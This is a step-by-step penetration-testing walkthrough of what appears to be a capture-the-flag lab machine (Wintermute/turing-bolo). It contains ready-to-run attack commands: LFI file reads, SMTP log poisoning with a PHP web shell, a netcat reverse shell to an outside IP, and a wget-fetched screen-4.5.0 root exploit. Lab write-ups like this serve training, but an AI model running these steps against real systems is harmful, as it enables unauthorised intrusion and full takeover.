

Here's the complete step-by-step penetration testing walkthrough with all attempts documented from the beginning:

# **Complete Penetration Testing Walkthrough**

## **Phase 1: Network Discovery**
### **Step 1: Identifying Live Hosts**
**Command:**
```bash
arp-scan 192.168.1.0/24
```
**Purpose:**  
- Discover all active devices on the local network
- Map IP addresses to MAC addresses

**Output Example:**  
  
*Found target IP: 192.168.1.8*

### **Understanding ARP**
- ARP (Address Resolution Protocol) converts IP addresses to MAC addresses
- Essential for local network communication
- `arp-scan` sends ARP requests and listens for responses

---

## **Phase 2: Service Enumeration**
### **Step 2: Comprehensive Nmap Scan**
**Command:**
```bash
nmap -A 192.168.1.8
```
**Findings:**  
- Port 25/tcp: SMTP (mail server)  
- Port 80/tcp: HTTP (web server)  
- Port 3000/tcp: ppp (later identified as ntopng)  



### **Service Analysis**
#### **Port 25 - SMTP**
- **Purpose:** Email transmission
- **Security Note:** Often vulnerable to open relays or verb tampering

#### **Port 80 - HTTP**
- Apache web server
- First access point for web exploitation

#### **Port 3000 - ppp**
- Later identified as ntopng (network monitoring)

---

## **Phase 3: Web Application Assessment**
### **Step 3: Initial Web Access**
**URL:** http://192.168.1.8  
**Discovery:** Wintermute's message about Neuromancer  


### **Step 4: Exploring Port 3000**
**URL:** http://192.168.1.8:3000  
**Tool:** ntopng  
**Credentials:** admin/admin (default)  
**Findings:** Network traffic monitoring interface  


### **Step 5: Discovering /turing-bolo**
**URL:** http://192.168.1.8/turing-bolo/  
**Observation:** LFI vulnerability in `bolo.php` parameter  

---

## **Phase 4: LFI Exploitation Attempts**
### **Attempt 1: Reading /etc/passwd**
**URL:**
```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/etc/passwd
```
**Purpose:** Enumerate system users  
**Result:** Success - displayed user accounts  


### **Attempt 2: Checking System Logs**
**URL:**
```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/boot.log
```
**Purpose:** Check system boot history  
**Result:** Success - displayed boot logs

### **Attempt 3: Accessing Mail Logs**
**URL:**
```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail
```
**Purpose:** Review SMTP transaction logs  
**Result:** Success - showed email logs  


---

## **Phase 5: Log Poisoning to RCE**
### **Step 6: SMTP Injection Attempts**
**First Try (Failed):**
```bash
telnet 192.168.1.8 25
mail from: attacker@localhost
rcpt to: root@localhost
subject: test
data: <?php system($_GET["cmd"]); ?>
.
```
**Issue:** Connection closed on subject line  


**Successful Method:**
```bash
telnet 192.168.1.8 25
mail from: attacker@localhost
rcpt to: root@localhost
subject: <?php system($_GET["cmd"]); ?>
.
```
**Result:** PHP code successfully injected into mail logs  


### **Step 7: Verifying Code Execution**
**Test Command:**
```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=id
```
**Result:** Successfully executed `id` command  


---

## **Phase 6: Reverse Shell Establishment**
### **Step 8: Setting Up Listener**
**Command:**
```bash
nc -nlvp 5566
```
**Purpose:** Prepare to receive connection  


### **Step 9: Triggering Reverse Shell**
**Payload:**
```
http://192.168.1.8/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=nc -e /bin/bash 192.168.0.145 5566
```
**Result:** Obtained interactive shell  


---

## **Phase 7: Privilege Escalation**
### **Step 10: Finding SUID Binaries**
**Command:**
```bash
find / -perm -u=s 2>/dev/null
```
**Finding:** Vulnerable `/bin/screen-4.5.0`  


### **Step 11: Exploiting Screen Vulnerability**
1. Located exploit:
   ```bash
   searchsploit screen 4.5.0
   ```
2. Downloaded exploit:
   ```bash
   searchsploit -m 41154
   ```
   

3. Hosted and executed exploit:
   ```bash
   python -m http.server 6677
   wget http://192.168.1.12:6677/41154.sh
   chmod +x 41154.sh
   ./41154.sh
   ```
   **Result:** Gained root access  
   

---

## **Key Takeaways**
1. **Methodical Approach:** From recon to root access
2. **Vulnerability Chaining:** LFI → Log Poisoning → RCE
3. **Persistence:** Multiple attempts to achieve code execution
4. **Privilege Escalation:** Importance of checking SUID binaries

This complete documentation shows all attempts, including failed ones, to provide realistic penetration testing scenario.